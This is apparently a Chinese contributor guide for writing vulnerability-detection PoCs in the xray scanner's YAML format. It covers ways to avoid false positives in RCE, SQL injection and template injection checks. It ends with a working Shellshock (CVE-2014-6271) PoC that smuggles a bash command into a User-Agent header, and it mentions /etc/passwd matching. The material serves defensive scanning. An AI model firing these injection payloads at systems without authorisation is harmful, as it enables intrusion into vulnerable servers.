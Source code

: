 # 如何编写高质量的 poc

在编写expression表达式时，请注意以下原则：

1. 无特殊情况不要在payload中出现你的用户名或者xray等字样，能随机的都随机。可以参考 poc 语法的文档。目前可能有以下例外需要注意下
 - updatexml 报错，如果参数是`md5(randvalue)` 报错页面的md5数据不一定完整，暂时可以使用固定值代替。
1. 不要直接使用如`status == 200`这样判断status code验证漏洞，一定存在误报。
1. 不要直接使用如`body.bcontains(b'success')`这样检测一个英文单词的方式来验证漏洞，一定存在误报。
1. 测试RCE类漏洞，请不要使用`echo`、`print`、`var_dump`之类的输出语句输出一个内容，然后在返回里查找这个内容，此类POC很容易误报和漏报，原因如下：
  - 如果对方页面本身是一个类似phpinfo的调试页面，会将你的数据包细节完全打印出来，那么并不能证明存在命令执行漏洞
  - 如果对方安装了xdebug等调试类扩展，`var_dump`等函数输出可能存在差异导致查找不成功
1.  测试RCE类漏洞，如PHP代码执行，请不要使用`system`、`shell_exec`、`phpinfo`等函数测试漏洞，容易出现误报和漏报，原因如下：
  - 如果对方本身就是一个phpinfo页面，无法判断是否是成功执行了代码，导致出现误报
  - 如果对方网站运行在一些虚拟主机环境下，如cpanel，则命令执行函数很可能已经被禁用，此时再用`system`等函数测试漏洞则会出现漏报
1. 测试命令执行、文件读取类漏洞，请考虑Linux和Windows下的情况，POC里不要执行类似`id`、`uname`、`/etc/passwd`等操作，否则可能不兼容Windows环境。通常这种情况，我们可以考虑编写两个POC，分别检测两个平台下的同一个漏洞
  - 匹配 `/etc/passwd` 文件的方法为 `r'root:[x*]:0:0:'.bmatches(body)`
1. 测试SQL注入漏洞，请不要使用`user()`、`version()`等函数来验证漏洞存在，此类规则太过宽泛。请使用如`select md5(随机数)`这样的方式来验证漏洞
1. 测试SQL注入漏洞，Payload中尽量不要使用引号、反斜线（除非是必要的）等特殊字符，可能会受到目标`GPC_QUOTE`、WAF等影响。
  - 如果是Mysql，可以使用`0xxxx`的方式代替有引号的字符串
1. 漏洞如果能通过回显检测，就不要使用反连平台，鼓励将公开的无回显的POC改为有回显的。比如公开的struts2漏洞POC很多是反弹shell的POC，但几乎所有struts2的POC都可以修改为有回显的POC。
1. 测试表达式注入、模板注入等漏洞，请不要以命令执行的方式来测试漏洞，通常可以直接使用整数相乘相加的方法，然后再查找返回结果
  - 如果是测试命令执行，目前推荐使用 `expr num1 + num2`，主要因为星号在 shell 中可能有潜在的转义问题，执行其他的命令可能返回值格式并不方便匹配。
  - 考虑到有些32位系统整数上限可能低于`2^^31`和数字过短可能误报，目前要求乘法两个数字的取值范围必须在 `40000` 和 `44800` 之间，加法两个数字必须在 `800000000` 和 `1000000000` 之间。
  
  ```
  set:
    r1: randomInt(40000, 44800)
    r2: randomInt(40000, 44800)
  
  set:
  r1: randomInt(800000000, 1000000000)
  r2: randomInt(800000000, 1000000000)
  ```
  
1. 关于POC的编写其他的注意点，推荐参考这篇文章：<https://paper.seebug.org/9/>

说了这么多，有个例子会更清晰些，如果要提交 bash cve-2014-6271 漏洞（shell shock） poc，那么 `bash-cve-2014-6271.yml` 文件的内容为

```yaml
name: poc-yaml-bash-cve-2014-6271
set:
  r1: randomInt(800000000, 1000000000)
  r2: randomInt(800000000, 1000000000)
rules:
  - method: GET
    headers:
      User-Agent: "() { :; }; echo; echo; /bin/bash -c 'expr {{r1}} + {{r2}}'"
    expression: body.bcontains(bytes(string(r1+r2)))
detail:
  author: example(https://github.com/example)
  links:
    - https://github.com/opsxcq/exploit-CVE-2014-6271
```

